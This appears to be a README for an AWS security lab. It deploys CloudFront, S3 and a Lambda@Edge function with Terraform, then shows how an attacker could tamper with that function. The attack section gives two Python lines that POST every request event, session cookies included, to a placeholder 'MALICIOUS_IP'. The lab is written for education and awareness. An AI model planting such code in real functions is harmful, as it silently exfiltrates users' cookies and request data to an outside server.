 # CloudFront - Data Exfiltration via Lambda Function Modification

## Overview

This setup deploys an AWS CloudFront distribution backed by an S3 bucket. The bucket contains two files: `index.html` and `login.html`. The `login.html` simulates a login page by setting a random cookie named `session-id` for the user. Additionally, a Lambda function checks for the presence of this cookie and redirects users to the login.html if it's missing.

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```

4. **Update the Lambda Function**:
    - After the initial `terraform apply`, you will receive an output containing the domain URL for the CloudFront distribution.
    - Open the Lambda function code and replace the `CHANGEME` placeholder with the received domain.
    - Save the changes.

5. **Reapply Terraform Changes**:
    ```bash
    terraform apply
    ```

6. **Access CloudFront**: After the second apply, accessing the CloudFront URL will lead you to `index.html`, the lambda will redirect you to `login.html`. The latter sets a random "cookie" to simulate a login page.

![Initial infraestructure](CloudFront-LambdaEdge.gif)

## Attacking the Infrastructure

The goal of this exercise is to demonstrate how attackers might harm an AWS infrastructure as detailed in the article:

1. **Modify the Lambda Function**:
    - Import the required modules: `http.client` and `json`.
    - Add the following lines to the handler:
        ```python
        conn = http.client.HTTPConnection("MALICIOUS_IP", 80)
        conn.request("POST", "/", json.dumps(event).encode('utf-8'))
        ```
    - Ensure you replace `MALICIOUS_IP` in the script with the IP of your server where you want to capture cookies.
    - Save the changes.

2. **Update the Lambda Function**:
    - Publish a new version of the modified Lambda function.
    - Update the CloudFront distribution to use this new version of the Lambda function.

From this point on, all user requests routed through CloudFront will also be sent to the specified `MALICIOUS_IP`.

![Attack infraestructure](CloudFrontAttack-LambdaEdge.gif)

## Understanding the Attack

The modified Lambda function now acts as a data exfiltration point. Every request processed by this function sends a copy of the event data to an external server (`MALICIOUS_IP`).

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.